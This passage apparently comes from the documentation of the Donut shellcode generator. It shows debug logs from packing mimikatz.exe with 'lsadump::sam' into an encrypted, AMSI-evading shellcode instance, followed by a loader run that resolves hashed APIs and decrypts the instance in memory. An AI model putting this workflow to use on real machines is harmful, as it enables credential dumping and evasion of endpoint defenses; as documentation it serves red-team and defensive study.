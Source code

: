 DEBUG: donut.c:1061:save_file(): Entering.
DEBUG: donut.c:1065:save_file(): Writing 483718 bytes of 0000024E9DE90080 to instance
DEBUG: donut.c:1070:save_file(): Leaving with error :  0
DEBUG: donut.c:1139:save_loader(): Saving loader as binary
DEBUG: donut.c:1172:save_loader(): Leaving with error :  0
DEBUG: donut.c:1540:DonutCreate(): Leaving with error :  0
  [ Instance type : Embedded
  [ Module file   : "mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ Compressed    : Xpress Huffman (Reduced by 53%)
  [ File type     : EXE
  [ Parameters    : lsadump::sam exit
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
DEBUG: donut.c:1556:DonutDelete(): Entering.
DEBUG: donut.c:1562:DonutDelete(): Releasing memory for module.
DEBUG: donut.c:1568:DonutDelete(): Releasing memory for configuration.
DEBUG: donut.c:1574:DonutDelete(): Releasing memory for loader.
DEBUG: donut.c:289:unmap_file(): Releasing compressed data.
DEBUG: donut.c:294:unmap_file(): Unmapping input file.
DEBUG: donut.c:299:unmap_file(): Closing input file.
DEBUG: donut.c:1580:DonutDelete(): Leaving.
</pre>

<p>If successfully created, there should now be a file called "instance" in the same directory as the loader. Pass the instance file as a parameter to loader.exe which should also be in the same directory.</p>

<pre>
C:\hub\donut>loader instance
Running...
DEBUG: loader/loader.c:109:MainProc(): Maru IV : 546E2FF018FD2A54
DEBUG: loader/loader.c:112:MainProc(): Resolving address for VirtualAlloc() : E445DF6F06219E85
DEBUG: loader/loader.c:116:MainProc(): Resolving address for VirtualFree() : C6C992D6040B85A8
DEBUG: loader/loader.c:120:MainProc(): Resolving address for RtlExitUserProcess() : E20BCE2C11E82C7B
DEBUG: loader/loader.c:129:MainProc(): VirtualAlloc : 00007FFFD1DAA190 VirtualFree : 00007FFFD1DAA180
DEBUG: loader/loader.c:131:MainProc(): Allocating 483718 bytes of RW memory
DEBUG: loader/loader.c:143:MainProc(): Copying 483718 bytes of data to memory 00000178FEA30000
DEBUG: loader/loader.c:147:MainProc(): Zero initializing PDONUT_ASSEMBLY
DEBUG: loader/loader.c:156:MainProc(): Decrypting 483718 bytes of instance
DEBUG: loader/loader.c:163:MainProc(): Generating hash to verify decryption
DEBUG: loader/loader.c:165:MainProc(): Instance : 33C49D5864287AEF | Result : 33C49D5864287AEF
DEBUG: loader/loader.c:172:MainProc(): Resolving LoadLibraryA
DEBUG: loader/loader.c:189:MainProc(): Loading ole32
DEBUG: loader/loader.c:189:MainProc(): Loading oleaut32
DEBUG: loader/loader.c:189:MainProc(): Loading wininet
DEBUG: loader/loader.c:189:MainProc(): Loading mscoree
DEBUG: loader/loader.c:189:MainProc(): Loading shell32
DEBUG: loader/loader.c:193:MainProc(): Resolving 48 API
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for EF2C0663C0CDDC21
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for D40916771ECED480
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for E445DF6F06219E85
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for C6C992D6040B85A8
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 556BF46109D12C9E
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 032546126BB99713
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for DEB476FF0E3D71E8
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for A0DD238846F064F4
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 03DE3865FC2DF17B
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 40FCB82879AAB610
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 954101E48C1D54F5
DEBUG: loader/loader.c:196:MainProc(): Resolving API address for 18669E0FDC3FD0B8